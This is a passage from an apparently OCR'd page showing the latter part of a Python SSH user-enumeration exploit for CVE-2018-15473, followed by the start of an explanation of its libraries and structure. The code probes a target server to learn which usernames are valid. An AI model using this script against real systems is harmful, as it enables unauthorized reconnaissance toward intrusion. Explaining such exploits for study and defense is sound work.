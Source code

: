 ```python
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print '[!] Failed to negotiate SSH transport'
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print "[-] {} is an invalid username".format(username)
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print "[+] {} is a valid username".format(username)

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity)')
parser.add_argument('target', help="IP address of the target system")
parser.add_argument('-p', '--port', default=22, help="Set port of SSH service")
parser.add_argument('username', help="Username to check for validity.")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)    
```


This script is an exploit designed to perform **user enumeration on vulnerable SSH servers**. It is based on the **CVE-2018-15473** vulnerability, which allows an attacker to determine whether a username is valid on an SSH server based on how the server responds when attempting to authenticate with an incorrect username.

**Code Analysis:**

1. **Libraries Used:**

   - **argparse**: Used to handle command-line arguments.
   - **logging**: Used to manage activity logging, although in this case, **paramiko** logging is disabled.
   - **paramiko**: A library for handling SSH connections in Python.
   - **socket**: Used to establish a connection to the SSH server.
   - **sys** and **os**: Standard Python modules used for operating system interaction and program output.
2. **Custom Class:**

   - A custom exception class named **InvalidUsername** is created to handle cases where an invalid username is detected.

3. **add_boolean Function:**
